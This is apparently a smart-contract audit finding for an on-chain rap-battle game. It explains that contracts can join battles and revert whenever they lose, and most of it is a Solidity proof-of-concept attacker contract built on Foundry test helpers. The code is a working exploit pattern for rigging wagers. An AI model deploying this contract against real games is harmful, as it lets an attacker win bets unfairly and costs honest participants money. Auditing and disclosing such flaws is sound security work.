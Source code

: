 This exploit allows smart contracts to unfairly manipulate battles, undermining the integrity of the game and potentially resulting in financial losses for honest participants.

**Proof of Concepts**

No measures are in place to prevent smart contracts from participating in battles. attacker can take advantage of this with an Contract like this:

```javascript
    contract AttackerRevertsIfHeLoses is Test, IERC721Receiver {

        IOneShot immutable oneShot;
        Credibility immutable credToken;
        RapBattle immutable rapBattle;
        Streets immutable streets;

        constructor(IOneShot _oneShot, Credibility _credToken, RapBattle _rapBattle, Streets _streets) {
            oneShot = IOneShot(_oneShot);
            credToken = _credToken;
            rapBattle = RapBattle(_rapBattle);
            streets = _streets;
        }

        function revertIfLostBetOtherwiseTakeThePrize(uint256 _tokenId) external {
            require(rapBattle.defender() != address(0), "There's No Defender Yet Waiting for an Challenger.");
            uint256 credTokenBalance = credToken.balanceOf(address(this));
            require(credTokenBalance >= rapBattle.defenderBet(), "Not Enough Balance to Join the Battle as Challenger.");

            oneShot.approve(address(rapBattle), _tokenId);
            credToken.approve(address(rapBattle), rapBattle.defenderBet());
            rapBattle.goOnStageOrBattle(_tokenId, rapBattle.defenderBet());

            require(credToken.balanceOf(address(this)) > credTokenBalance, "Let's Revert Because We Lose the Bet.");
        }
        

        function getRapperNftAndStakeIt(uint256 _tokenId, uint256 _days) external {
            oneShot.mintRapper();
            oneShot.approve(address(streets), _tokenId);
            streets.stake(_tokenId);

            vm.warp(block.timestamp + _days);
            streets.unstake(_tokenId);
        }


        function onERC721Received(address, address, uint256, bytes calldata) external pure override returns (bytes4) {
            return IERC721Receiver.onERC721Received.selector;
        }

    }
```
